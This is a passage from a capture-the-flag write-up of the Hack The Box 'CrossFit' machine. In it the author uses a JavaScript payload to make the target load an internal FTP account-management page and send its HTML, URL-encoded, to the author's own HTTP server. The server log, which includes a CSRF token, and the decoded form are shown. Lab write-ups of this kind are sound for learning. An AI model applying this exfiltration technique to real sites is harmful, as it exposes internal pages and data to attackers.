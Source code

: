 I saved the HTML code to a file and opened it in my browser.  The page turned out to be an account management page for FTP.  The "Create Account" button was a link to a site that sounded interesting: `http://ftp.crossfit.htb/accounts/create`.  I modified my JavaScript payload to see what was at this page.

```text
10.10.10.208 - - [15/Jan/2021 18:41:59] "GET /test.js HTTP/1.1" 200 -
10.10.10.208 - - [15/Jan/2021 18:41:59] code 404, message File not found
10.10.10.208 - - [15/Jan/2021 18:41:59] "GET /%3C!DOCTYPE%20html%3E%3Chtml%3E%3Chead%3E%20%20%20%20%3Ctitle%3EFTP%20Hosting%20-%20Account%20Management%3C/title%3E%20%20%20%20%3Clink%20href=%22https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css%22%20rel=%22stylesheet%22%3E%3C/head%3E%3Cbody%3E%3Cbr%3E%3Cdiv%20class=%22container%22%3E%20%20%20%20%3Cdiv%20class=%22row%22%3E%20%20%20%20%3Cdiv%20class=%22col-lg-12%20margin-tb%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-left%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3EAdd%20New%20Account%3C/h2%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-right%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20class=%22btn%20btn-primary%22%20href=%22http://ftp.crossfit.htb/accounts%22%3E%20Back%3C/a%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%3C/div%3E%3C/div%3E%3Cform%20action=%22http://ftp.crossfit.htb/accounts%22%20method=%22POST%22%3E%20%20%20%20%3Cinput%20type=%22hidden%22%20name=%22_token%22%20value=%22GSlwHU3OU1s0lcF102Hku1jwvXeBtqGiAvKCjEGH%22%3E%20%20%20%20%20%3Cdiv%20class=%22row%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22col-xs-12%20col-sm-12%20col-md-12%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22form-group%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cstrong%3EUsername:%3C/strong%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type=%22text%22%20name=%22username%22%20class=%22form-control%22%20placeholder=%22Username%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22col-xs-12%20col-sm-12%20col-md-12%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22form-group%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cstrong%3EPassword:%3C/strong%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type=%22password%22%20name=%22pass%22%20class=%22form-control%22%20placeholder=%22Password%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22col-xs-12%20col-sm-12%20col-md-12%20text-center%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20type=%22submit%22%20class=%22btn%20btn-primary%22%3ESubmit%3C/button%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%3C/div%3E%3C/form%3E%3C/div%3E%3C/body%3E%3C/html%3E HTTP/1.1" 404 -
```

I got back a response with the encoded HTML code for the `/accounts/create` website.

```markup
<!DOCTYPE html>
<html><head>
    <title>FTP Hosting - Account Management</title>
    <link href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css" rel="stylesheet">
</head>
<body>
<br>
<div class="container">
    <div class="row">
    <div class="col-lg-12 margin-tb">
        <div class="pull-left">
            <h2>Add New Account</h2>
        </div>
        <div class="pull-right">
            <a class="btn btn-primary" href="http://ftp.crossfit.htb/accounts"> Back</a>
        </div>
    </div>
</div>
<form action="http://ftp.crossfit.htb/accounts" method="POST">
    <input type="hidden" name="_token" value="GSlwHU3OU1s0lcF102Hku1jwvXeBtqGiAvKCjEGH">
     <div class="row">
         <div class="col-xs-12 col-sm-12 col-md-12">
            <div class="form-group">
                <strong>Username:</strong>
                <input type="text" name="username" class="form-control" placeholder="Username">
            </div>
```